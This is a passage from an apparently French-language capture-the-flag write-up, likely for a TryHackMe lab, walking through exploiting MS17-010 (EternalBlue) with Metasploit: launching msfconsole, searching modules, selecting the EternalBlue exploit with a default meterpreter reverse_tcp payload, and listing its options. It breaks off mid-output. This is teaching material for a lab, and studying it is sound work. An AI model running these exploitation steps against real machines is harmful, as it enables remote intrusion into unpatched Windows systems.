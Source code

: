 `MS17-010` a été exploité par le célèbre ransomware WannaCry.

**Réponse :** `WannaCry`

## Exploitation

### Q7 - Avec quel utilisateur obtient-on l'exécution en exploitant MS17-010 ? (Inclure le nom complet, avec ce qui précède un éventuel `\`.)

Nous allons maintenant exploiter la vulnérabilité **MS17-010 (EternalBlue)**.

Pour cela, nous utilisons _Metasploit_, un framework de pentest très utile qui propose des modules pour l'énumération (auxiliary), l'exploitation (exploits) et la post-exploitation (post), entre autres.

Si vous ne connaissez pas Metasploit, je vous recommande ce module d'introduction : [Metasploit sur TryHackMe](https://tryhackme.com/module/metasploit)

Lançons la console Metasploit :

```bash
msfconsole
Metasploit Documentation: https://docs.metasploit.com/

msf6 >
```

Recherchons un module d'exploitation pour **MS17-010** :

```bash
msf6 > search ms17

Matching Modules
================

0   exploit/windows/smb/ms17_010_eternalblue   2017-03-14   average  Yes   MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
10  exploit/windows/smb/ms17_010_psexec        2017-03-14   normal   Yes   MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
24  auxiliary/scanner/smb/smb_ms17_010                      normal   No    MS17-010 SMB RCE Detection
```

Concentrons-nous sur EternalBlue : utilisons le premier module et affichons ses options.

```bash
msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s)
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
```